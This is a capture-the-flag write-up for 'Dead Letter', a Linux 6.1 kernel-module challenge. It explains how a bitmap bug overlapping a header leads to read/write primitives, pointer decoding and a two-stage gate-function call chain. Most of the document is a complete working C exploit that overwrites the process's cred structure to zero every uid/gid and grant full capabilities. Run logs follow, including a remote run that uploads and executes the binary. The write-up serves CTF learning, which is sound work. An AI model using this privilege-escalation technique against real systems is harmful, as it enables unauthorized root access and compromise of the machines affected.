


Dead Letter¶
VERIFIED PWN 974 pts id 7
| Field | Value |
|---|---|
| Event | Layer7 CTF 2026 |
| Category | pwn |
| Points | 974 |
| Solved at | 2026-11-21 09:48:22+07:00 |
| Flag | Layer7{43837d8375d546a39db46ef0b86994ea637c123700d5ffc8e5e77337478df6b8} |
| Status | VERIFIED |
TL;DR¶
Dead Letter is a Linux 6.1 kernel-module challenge. The module /dev/deadletter
keeps all of its state on one zeroed page and exposes three ioctls. The bitmap
ioctl can set arbitrary bits in page+0x100..0x1ff, which overlaps the header
at page+0x180. Setting bit 12 of header[8] raises the body access bound from
0x100 to 0x1100, turning the "read/write body" ioctl into a read/write
primitive over the slot table and the sealed "letter".
The page can then be parsed to recover the active slot, the per-open keys and
the encoded pointers (module base, current->cred). The "send" ioctl
authenticates a slot and calls the decoded slot[0x10] pointer with
rdi = ctx, so we can invoke the module's own gate functions in sequence:
0x120validates the letter/slot and cachescurrent->credintoctx[0x38];0x2b0setsheader[0x10] = current->cred, so the body-write ioctl now writes to ourcred.
Finally we overwrite cred->uid/gid/... with zero and grant full capabilities,
then read /flag as root.
Flag: Layer7{43837d8375d546a39db46ef0b86994ea637c123700d5ffc8e5e77337478df6b8}
Recon¶
Files from python3 l7.py file 7 (for_user.zip):
bzImage Linux kernel 6.1.0-54-amd64 (Debian 6.1.190-1)
deadletter.ko misc driver "Dead Letter secure cartridge controller"
initramfs.cpio.gz contains /deadletter.ko, /flag (fake locally), /drop
run.sh qemu-system-x86_64 -m 256M -cpu qemu64,+smep,+smap \
-append 'console=ttyS0 quiet loglevel=3 kaslr panic=1 oops=panic pti=on'
-sandbox on,...
run.sh runs with KASLR, SMEP, SMAP, PTI and a restrictive QEMU sandbox.
/drop is a static binary that only does setuid(1000); setgid(1000);
execl("/bin/sh","sh",NULL), so the attacker is uid 1000 and /dev/deadletter
is world-writable.
The module is stripped but not obfuscated in the usual sense. The strings are
stored as reversed immediates: tteldaed, !xobliam (mailbox!),
!!1egats (stage1!!), DERC (CRED), MMOC (COMM), KSAT (TASK),
TUOR (ROUT), TSAFA9D (FAST). The driver registers a single misc device
with file_operations = { .unlocked_ioctl = 0x940, .open = 0xe60,
.release = 0x890 } (offsets verified against the BTF-typed vmlinux
extracted from the provided bzImage).
Local testing infrastructure: the extracted initramfs was extended with the
exploit and an init script that loads the module, runs the exploit as uid 1000
and powers off. The fake flag is Layer7{**fake_flag**}; the remote service
injects the real flag into the same initramfs.
Analysis¶
Heap layout created by open()¶
open() (.text+0xe60):
ctx = kmalloc(0x58, GFP_KERNEL | __GFP_ZERO)(0xdc0flags)- one zeroed page
page = get_zeroed_page() ctx[0x00] = pagectx[0x08] = page+0x200ctx[0x10] = page+0x100ctx[0x18] = page+0x180ctx[0x20] = page+0xc00ctx[0x28] = <random active slot>
Page layout:
page+0x100 bitmap (0x80 bytes) <-- bts target
page+0x180 header (0x80 bytes) <-- overlaps the bitmap!
+0x00 "deadlett" ^ handle
+0x08 u64 bound/flags (initial 0x00000003_00000100)
+0x10 pointer to body (page+0x200)
page+0x200 body (0x100 bytes)
page+0x400 9 slots, 0x80 bytes each
page+0xc00 letter, 0x80 bytes
Each slot is seeded with two random u32 values C = slot[0x30],
A = slot[0x34] = mix(C), B = slot[0x38] = hash32(C), and a random
64-bit handle H = slot[0x08] = (u64)C<<32 | A. The slot also contains
slot[0x20] = page, slot[0x28] = page+0x200 and several encoded 64-bit
pointers:
key1 = A*0x100000001 ^ H ^ 0xd1ceb00bcafebeef
key2 = A*0x100000001 ^ rol64(B,0x1d) ^ H ^ 0xa3a1c57fafd3c8dd
enc(key, fn) = rol64(key+fn, 0x11) ^ ror64(key, 0x0b)
fn = ror64(enc ^ ror64(key,0x0b), 0x11) - key
At open() the letter is built from the active slot and encodes, among other
things, current and current->cred (task_struct->cred is at offset 0xb90
in this kernel).
Ioctls¶
0x40084b40—{u16 idx; u16 0; u32 0}→bts [page+0x100], idx,idx <= 0x7ff. This is the bug:idxup to0x7ffreachespage+0x1ff, i.e. the header.0x40184b41—{u32 off; u32 len; u64 buf; u32 mode; u32 flags}- mode 0:
copy_to_user(buf, header[0x10]+off, len) - mode 1:
copy_from_user(buf, len); memcpy(header[0x10]+off, buf, len) - mode 2:
copy_to_user(buf, ctx[0x38]+off, len), bounded byctx[0x40] len <= 0x800,off+len <= header[8](for modes 0/1).0xc0184b42—{u64 handle; u64 token; u64 result}: finds a slot withslot[8] == handle, requires it to be the active slotctx[0x28], verifies the tokentoken = rol32(A,7) ^ A ^ B ^ 0x73656e64 ("send"), verifies a large set of invariants (includingslot[0x48] == hash_slot(slot)), then decodesslot[0x10]and calls it withrdi = ctx. The function return value is written toslot[0x40]and toresult.
Gate functions reachable through slot[0x10]¶
.text+0x120validates the letter and slot, checks that the decodedletter[0x40]equalscurrent->cred, then storesctx[0x38] = current->cred,ctx[0x40] = 0x100,ctx[0x48] = ...and updatesslot[0x3c]. This enables the mode-2 read window overcred..text+0x2b0requires the state produced by0x120, then setsheader[0x10] = current->cred,header[8] = 0x100,header[0xc] = 0x80000003. This turns mode 1 into an arbitrary write intocred.
Exploit chain¶
set_bit(0x44c)sets bit 12 ofheader[8](0x100 -> 0x1100). This both raises the body bound enough to reach the slots/letter and makes the qword atheader+8exactly0x00000003_000001100, which0x120checks.- Mode 0 dump of
page+0x200 .. page+0x1000recovers all slots and the letter. letter[0x20]is the handle of the active slot; matching it against eachslot[8]identifies the active slot index (the active slot is random).key1,key2are recomputed fromA,B,H. Decodingslot[0x18]yields the module base; decodingletter[0x40]yieldscurrent->cred.- We modify the letter:
letter[0x18] = H ^ 0x7374616765312121so that0x2b0's check onctx[0x30](zeroed by__GFP_ZERO) passes, then recompute the two letter hashes (func0at.text+0x0,func70at.text+0x70) and store them atletter[0x28]/letter[0x68]. - Craft the active slot: keep all authenticated fields, set
slot[0x10] = enc(key1, .text+0x120),slot[0x3c]to the "FAST" check value,slot[0x40] = cred, and recomputeslot[0x48] = hash_slot(slot). Send with the correct token →0x120runs, cachingcred. - Read
credvia mode 2. Craft the slot again withslot[0x10] = enc(key1, .text+0x2b0), the newslot[0x3c]("COMM"),slot[0x40] = cred, recompute the hash, send again →0x2b0setsheader[0x10] = cred. - Mode 1 write of a patched
credbuffer: all uids/gids = 0 andcap_permitted/effective/bset/ambient = 0x1ffffffffff. getuid()now returns 0 and/flagis readable.
Exploit¶
Full source is work/7/exploit.c (same code compiled with musl-gcc -static
into work/7/exploit_musl, 42 KB). The uploader is work/7/remote.py.
// Dead Letter - Layer7 CTF 2026
// Kernel module /dev/deadletter exploit.
//
// ioctl 0x40084b40: {u16 idx; u16 pad; u32 pad2} -> bts bitmap[page+0x100], idx
// ioctl 0x40184b41: {u32 off; u32 len; u64 buf; u32 mode; u32 flags}
// mode 0: read (header[0x10]+off) -> user
// mode 1: write user -> (header[0x10]+off)
// mode 2: read (ctx[0x38]+off) -> user (bound ctx[0x40])
// ioctl 0xc0184b42: {u64 handle; u64 token; u64 result}
// finds slot by handle, checks signature + hash, then calls the
// decoded function pointer slot[0x10] with rdi = ctx.
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <errno.h>
#define CMD_BIT 0x40084b40UL
#define CMD_RW 0x40184b41UL
#define CMD_SEND 0xc0184b42UL
struct rw_req {
uint32_t off;
uint32_t len;
uint64_t buf;
uint32_t mode;
uint32_t flags;
};
struct send_req {
uint64_t handle;
uint64_t token;
uint64_t result;
};
static int fd;
static uint64_t rol64(uint64_t x, int n) { n &= 63; return (x << n) | (x >> ((64 - n) & 63)); }
static uint64_t ror64(uint64_t x, int n) { n &= 63; return (x >> n) | (x << ((64 - n) & 63)); }
static uint32_t rol32(uint32_t x, int n) { return (x << n) | (x >> (32 - n)); }
static void set_bit(uint16_t idx) {
uint8_t b[8];
memset(b, 0, sizeof(b));
memcpy(b, &idx, 2);
if (ioctl(fd, CMD_BIT, b) != 0)
fprintf(stderr, "[!] set_bit(%#x): %s\n", idx, strerror(errno));
}
static int page_read_chunk(uint32_t off, void *dst, uint32_t len) {
struct rw_req r;
r.off = off; r.len = len; r.buf = (uint64_t)dst; r.mode = 0; r.flags = 0;
return ioctl(fd, CMD_RW, &r);
}
static int page_read(uint32_t off, void *dst, uint32_t len) {
uint8_t *p = dst;
while (len) {
uint32_t c = len > 0x800 ? 0x800 : len;
int ret = page_read_chunk(off, p, c);
if (ret != 0) return ret;
p += c; off += c; len -= c;
}
return 0;
}
static int page_write(uint32_t off, const void *src, uint32_t len) {
struct rw_req r;
r.off = off; r.len = len; r.buf = (uint64_t)src; r.mode = 1; r.flags = 0;
return ioctl(fd, CMD_RW, &r);
}
static int cred_read(uint32_t off, void *dst, uint32_t len) {
struct rw_req r;
r.off = off; r.len = len; r.buf = (uint64_t)dst; r.mode = 2; r.flags = 0;
return ioctl(fd, CMD_RW, &r);
}
static int send_call(uint64_t handle, uint64_t token, uint64_t *result) {
struct send_req r;
r.handle = handle; r.token = token; r.result = 0;
int ret = ioctl(fd, CMD_SEND, &r);
if (result) *result = r.result;
return ret;
}
/* ---- hashes replicated from the module ---- */
static uint64_t func0(const uint64_t *L, const uint64_t *S) {
uint64_t r8 = 0x510e527fade682d1ULL ^ S[1];
uint64_t rsi = 0x9e3779b97f4a7c15ULL;
const uint64_t r9 = rsi;
const uint64_t r10 = 0xd6e8feb86659fd93ULL;
int ecx = 0xd, rdx = 0;
do {
if (rdx != 5) {
uint64_t rax = L[rdx] + rsi;
rax ^= r8;
rax = rol64(rax, ecx);
rax *= r10;
r8 = rax;
}
ecx += 7;
rdx += 1;
rsi += r9;
} while (ecx != 0x45);
return r8 ^ (r8 >> 0x1d);
}
static uint64_t func70(const uint64_t *L, const uint64_t *S) {
uint64_t rdx = 0x1f83d9abfb41bd6bULL ^ S[1];
uint32_t esi = 0;
uint64_t r8 = 0xc7069c1dfa2d2477ULL;
const uint64_t r9 = 0xa24baed4963ee407ULL;
const uint64_t r10 = 0xae4c415dULL;
int idx = 0;
do {
uint64_t rax = L[idx++];
uint32_t ecx = esi;
rax ^= r8;
r8 += r9;
rdx += rax;
uint64_t t = (uint64_t)esi * r10;
t >>= 0x25;
uint32_t ea = (uint32_t)t * 0x2f;
ecx -= ea;
rax = rdx;
ecx += 0xb;
rax = rol64(rax, ecx);
rdx = rax;
rdx ^= (rdx >> 0x17);
esi += 5;
} while (esi != 0x41);
return rdx ^ rol64(rdx, 0x1f);
}
static uint64_t hash_slot(const uint8_t *s) {
uint64_t rax = 0x6a09e667f3bcc909ULL;
uint64_t acc = 0x9e37UL;
uint32_t i = 0;
do {
uint64_t rcx, q, r;
uint32_t eax, edx, idx;
uint16_t val;
rax = rol64(rax, 9);
rcx = rax;
q = (uint64_t)i * 0x38e38e39ULL;
q >>= 0x23;
eax = (uint32_t)q * 9;
eax <<= 2;
edx = i - eax;
idx = edx + edx;
memcpy(&val, s + idx, 2);
r = (uint64_t)val + acc;
r ^= rcx;
r *= 0x100000001b3ULL;
rax = r;
acc += 0x9e37;
i += 0xd;
} while (acc != 0x16ddf3);
return rax;
}
static uint64_t enc_ptr(uint64_t key, uint64_t fn) {
return rol64(key + fn, 0x11) ^ ror64(key, 0xb);
}
int main(void) {
uint8_t page[0x1000];
uint64_t *slot, *letter;
int i, active = -1;
uint64_t page_ptr, H, A, B, C, W, key1, key2, f0addr, text_base;
uint64_t letter_val, slot40_orig, cred_ptr;
uint64_t token, ret;
uint8_t slotbuf[0x80], letterbuf[0x80];
uint64_t newcred[0xb0/8];
char flag[256];
int n;
setbuf(stdout, NULL);
setbuf(stderr, NULL);
if (setgid(1000) != 0) perror("setgid");
if (setuid(1000) != 0) perror("setuid");
printf("[*] running as uid=%d euid=%d\n", getuid(), geteuid());
fd = open("/dev/deadletter", O_RDWR);
if (fd < 0) { perror("open /dev/deadletter"); return 1; }
printf("[*] opened /dev/deadletter\n");
/* 1. bitmap overlaps header: bit 0x44c sets bit 12 of header[8] */
set_bit(0x44c);
/* 2. dump body + slots + letter */
memset(page, 0, sizeof(page));
if (page_read(0, page, 0xe00) != 0) { perror("page_read"); return 1; }
letter = (uint64_t *)(page + 0xa00); /* page+0xc00 */
H = letter[4]; /* active handle */
printf("[*] active handle = 0x%016lx\n", H);
for (i = 0; i < 9; i++) {
slot = (uint64_t *)(page + 0x200 + i * 0x80);
if (slot[1] == H) { active = i; break; }
}
if (active < 0) { printf("[!] active slot not found\n"); return 1; }
slot = (uint64_t *)(page + 0x200 + active * 0x80);
printf("[*] active slot index = %d\n", active);
page_ptr = slot[4];
{
uint8_t *sb = (uint8_t *)slot;
memcpy(&C, sb + 0x30, 4);
memcpy(&A, sb + 0x34, 4);
memcpy(&B, sb + 0x38, 4);
memcpy(&H, sb + 0x08, 8);
memcpy(&slot40_orig, sb + 0x40, 8);
memcpy(&W, sb + 0x30, 8);
}
printf("[*] page=0x%016lx A=0x%08x B=0x%08x C=0x%08x H=0x%016lx\n",
(unsigned long)page_ptr, (unsigned)A, (unsigned)B, (unsigned)C, (unsigned long)H);
key1 = (uint64_t)A * 0x100000001ULL ^ H ^ 0xd1ceb00bcafebeefULL;
key2 = (uint64_t)A * 0x100000001ULL ^ rol64((uint64_t)B, 0x1d) ^ H
^ 0xa3a1c57fafd3c8ddULL;
f0addr = ror64(slot[3] ^ ror64(key1, 0xb), 0x11) - key1;
text_base = f0addr - 0xf0;
printf("[*] decoded .text+0xf0 = 0x%016lx (module base 0x%016lx)\n",
f0addr, text_base);
if ((f0addr & 0xfff) != 0xf0) { printf("[!] pointer decode failed\n"); return 1; }
letter_val = letter[8];
cred_ptr = ror64(letter_val ^ ror64(key2, 0xb), 0x11) - key2;
printf("[*] current->cred = 0x%016lx (slot[0x40]=0x%016lx)\n",
(unsigned long)cred_ptr, (unsigned long)slot40_orig);
if (cred_ptr < 0xffff800000000000ULL) { printf("[!] cred decode failed\n"); return 1; }
/* 3. letter[0x18] chosen so 0x2b0's ctx[0x30] check passes; fix hashes */
memcpy(letterbuf, letter, 0x80);
{
(void)W;
uint64_t l18 = H ^ 0x7374616765312121ULL;
uint64_t l28, l68;
memcpy(letterbuf + 0x18, &l18, 8);
l28 = func0((uint64_t *)letterbuf, slot);
memcpy(letterbuf + 0x28, &l28, 8);
l68 = func70((uint64_t *)letterbuf, slot);
memcpy(letterbuf + 0x68, &l68, 8);
printf("[*] letter[0x18]=0x%016lx new hashes 0x%016lx / 0x%016lx\n",
l18, l28, l68);
}
token = (uint64_t)(rol32(A, 7) ^ A ^ B ^ 0x73656e64U);
printf("[*] token = 0x%016lx\n", token);
/* 4. first send -> 0x120 : cache current->cred in ctx */
memcpy(slotbuf, slot, 0x80);
{
uint64_t fn120 = text_base + 0x120;
uint64_t enc = enc_ptr(key1, fn120);
uint32_t l60 = (uint32_t)letter[0xc];
uint32_t sc = l60 ^ B ^ 0x46415354U;
uint64_t hs;
memcpy(slotbuf + 0x10, &enc, 8);
memcpy(slotbuf + 0x3c, &sc, 4);
memcpy(slotbuf + 0x40, &cred_ptr, 8);
hs = hash_slot(slotbuf);
memcpy(slotbuf + 0x48, &hs, 8);
printf("[*] call #1 -> 0x%lx (enc 0x%016lx)\n", fn120, enc);
}
if (page_write(0xa00, letterbuf, 0x80) != 0) { perror("write letter"); return 1; }
if (page_write(0x200 + active * 0x80, slotbuf, 0x80) != 0) { perror("write slot"); return 1; }
if (send_call(H, token, &ret) != 0) { perror("send #1"); return 1; }
printf("[*] send #1 returned, result=0x%lx\n", (unsigned long)ret);
if (ret != 0) { printf("[!] stage 1 rejected\n"); return 1; }
/* 5. read cred through the mode 2 window */
memset(newcred, 0, sizeof(newcred));
if (cred_read(0, newcred, sizeof(newcred)) != 0) { perror("cred_read"); return 1; }
{
uint32_t *u = (uint32_t *)newcred;
printf("[*] cred[0..0x2f]: ");
for (i = 0; i < 12; i++) printf("%08x ", u[i]);
printf("\n");
}
/* 6. second send -> 0x2b0 : header[0x10] = cred */
{
uint64_t fn2b0 = text_base + 0x2b0;
uint64_t enc = enc_ptr(key1, fn2b0);
uint64_t ctx48 = rol64(letter[0xb] ^ letter[0xc] ^ cred_ptr, 0x11);
uint32_t sc = (uint32_t)ctx48 ^ B ^ 0x434f4d4dU;
uint64_t hs;
memcpy(slotbuf, slot, 0x80);
memcpy(slotbuf + 0x10, &enc, 8);
memcpy(slotbuf + 0x3c, &sc, 4);
memcpy(slotbuf + 0x40, &cred_ptr, 8);
hs = hash_slot(slotbuf);
memcpy(slotbuf + 0x48, &hs, 8);
printf("[*] call #2 -> 0x%lx (enc 0x%016lx)\n", fn2b0, enc);
if (page_write(0x200 + active * 0x80, slotbuf, 0x80) != 0) { perror("write slot2"); return 1; }
if (send_call(H, token, &ret) != 0) { perror("send #2"); return 1; }
printf("[*] send #2 returned, result=0x%lx\n", (unsigned long)ret);
if (ret != 0) { printf("[!] stage 2 rejected\n"); return 1; }
}
/* 7. patch cred: ids = 0, full caps */
{
uint32_t *u = (uint32_t *)newcred;
uint64_t caps = 0x000001ffffffffffULL;
for (i = 2; i <= 9; i++) u[i] = 0;
u[10] = 0;
memcpy((uint8_t *)newcred + 44, &caps, 8);
memcpy((uint8_t *)newcred + 52, &caps, 8);
memcpy((uint8_t *)newcred + 60, &caps, 8);
memcpy((uint8_t *)newcred + 68, &caps, 8);
memcpy((uint8_t *)newcred + 76, &caps, 8);
}
if (page_write(0, newcred, sizeof(newcred)) != 0) { perror("cred write"); return 1; }
printf("[*] cred patched: uid=%d euid=%d\n", getuid(), geteuid());
/* 8. read flag */
{
int ff = open("/flag", O_RDONLY);
if (ff < 0) { perror("open /flag"); return 1; }
n = read(ff, flag, sizeof(flag) - 1);
if (n < 0) { perror("read /flag"); return 1; }
flag[n] = 0;
close(ff);
printf("[+] FLAG: %s\n", flag);
}
return 0;
}
Build:
gcc -O2 -static -o exploit exploit.c # local qemu testing
musl-gcc -O2 -static -o exploit_musl exploit.c && strip exploit_musl # 42 KB for upload
Evidence¶
Local QEMU (fake flag in the initramfs) — the same code path:
=== RUN EXPLOIT ===
[*] running as uid=1000 euid=1000
[*] opened /dev/deadletter
[*] active handle = 0x2e57d62bd1bf10b7
[*] active slot index = 6
[*] page=0xffff8f53829db000 A=0xd1bf10b7 B=0xb473b4fb C=0x2e57d62b H=0x2e57d62bd1bf10b7
[*] decoded .text+0xf0 = 0xffffffffc03660f0 (module base 0xffffffffc0366000)
[*] current->cred = 0xffff8f53828d6c00 (slot[0x40]=0x0000000000000000)
[*] letter[0x18]=0x5d23b74cb48e3196 new hashes 0x73f07fdd5de5f334 / 0xa3bca046b011aa0b
[*] token = 0x00000000c92191c0
[*] call #1 -> 0xffffffffc0366120 (enc 0x30cad2a492e7039b)
[*] send #1 returned, result=0x0
[*] cred[0..0x2f]: 00000003 00000000 000003e8 000003e8 000003e8 000003e8 000003e8 000003e8 000003e8 000003e8 00000000 00000000
[*] call #2 -> 0xffffffffc03662b0 (enc 0x30cad2a491c7039b)
[*] send #2 returned, result=0x0
[*] cred patched: uid=0 euid=0
[+] FLAG: Layer7{**fake_flag**}
Remote service (nc 104.105.149.249 42789), exploit uploaded as
base64 + base64 -d, full transcript in work/7/remote.log:
/ $ base64 -d /tmp/b64 > /tmp/x && chmod +x /tmp/x && ls -l /tmp/x
-rwxr-xr-x 1 ctf ctf 42656 Nov 21 02:48 /tmp/x
/ $ /tmp/x; echo EXPLOIT_RC=$?
[*] running as uid=1000 euid=1000
[*] opened /dev/deadletter
[*] active handle = 0x40d47cd70720971d
[*] active slot index = 0
[*] page=0xffff8daf029d3000 A=0x0720971d B=0x8e28d5c5 C=0x40d47cd7 H=0x40d47cd70720971d
[*] decoded .text+0xf0 = 0xffffffffc052a0f0 (module base 0xffffffffc052a000)
[*] current->cred = 0xffff8daf028cf180 (slot[0x40]=0x0000000000000000)
[*] letter[0x18]=0x33a01db06211b63c new hashes 0x68278b7fbee90205 / 0x6743e3a5b880042c
[*] token = 0x000000006a26a23f
[*] call #1 -> 0xffffffffc052a120 (enc 0x6a71d1e9b82673a3)
[*] send #1 returned, result=0x0
[*] cred[0..0x2f]: 00000003 00000000 000003e8 000003e8 000003e8 000003e8 000003e8 000003e8 000003e8 000003e8 00000000 00000000
[*] call #2 -> 0xffffffffc052a2b0 (enc 0x6a71d1e9bb0673a3)
[*] send #2 returned, result=0x0
[*] cred patched: uid=0 euid=0
[+] FLAG: Layer7{43837d8375d546a39db46ef0b86994ea637c123700d5ffc8e5e77337478df6b8}
EXPLOIT_RC=0
Submission (python3 l7.py submit 7 '...'):
200 {
"correct": true,
"ctf_state": "active"
}
work/7/submit.json:
{
"submitted_at": "2026-11-21T02:48:22.620258+00:00",
"challenge_id": "7",
"flag": "Layer7{43837d8375d546a39db46ef0b86994ea637c123700d5ffc8e5e77337478df6b8}",
"http_status": 200,
"response": {
"correct": true,
"ctf_state": "active"
}
}
Files in work/7/:
exploit.c— annotated exploit sourceexploit/exploit_musl— static buildsremote.py— uploader/runner overncremote.log— full remote transcriptdisasm.txt,reloc_disasm.txt— module disassemblyrootfs/,initramfs_test*.cpio.gz— local test initramfssubmit.json— submission proof
Flag¶
Layer7{43837d8375d546a39db46ef0b86994ea637c123700d5ffc8e5e77337478df6b8}
Evidence¶
Platform submission¶
{
"submitted_at": "2026-11-21T02:48:22.620258+00:00",
"challenge_id": "7",
"flag": "Layer7{43837d8375d546a39db46ef0b86994ea637c123700d5ffc8e5e77337478df6b8}",
"http_status": 200,
"response": {
"correct": true,
"ctf_state": "active"
}
}

Captured solver transcript¶
Full raw log: evidence/7-dead-letter-transcript.txt

Flag¶
Layer7{43837d8375d546a39db46ef0b86994ea637c123700d5ffc8e5e77337478df6b8}
Submitted and accepted on the platform at
2026-11-21 09:48:22+07:00(Asia/Jakarta).